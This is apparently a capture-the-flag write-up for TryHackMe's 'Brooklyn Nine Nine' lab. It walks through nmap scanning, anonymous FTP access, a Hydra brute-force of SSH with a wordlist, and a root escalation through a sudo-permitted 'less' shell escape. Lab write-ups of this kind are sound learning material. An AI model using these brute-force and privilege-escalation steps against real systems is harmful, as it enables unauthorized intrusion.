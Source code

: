 # Brooklyn Nine Nine | https://tryhackme.com/room/brooklynninenine
![b99](https://i.imgur.com/hJToewe.png)



## Enumeration 
```
nmap -v -A -T4 -p- 10.10.147.67

21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

We have ftp anon login so next ftp to it and get the note_to_jake.txt.
```
![b99](https://i.ibb.co/m9139St/d.png)

```
~$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
so weak password huh? 

```
fredi@index:~$ hydra -l jake -P wordlists/rockyou.txt ssh://10.10.239.250 -t 20

attacking ssh://10.10.239.250:22/

[22][ssh] host: 10.10.239.250   login: jake   password: <redacted>
``
Then ssh into the machine.
:~$ ssh jake@10.10.239.250

## Priviledge Escalation
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
    ``` 
so no need for sudo password for "less" ok.
https://gtfobins.github.io/gtfobins/less/

jake@brookly_nine_nine:~$ sudo less /etc/profile
!/bin/sh

And Thats IT we have root ! Now go get the flags!

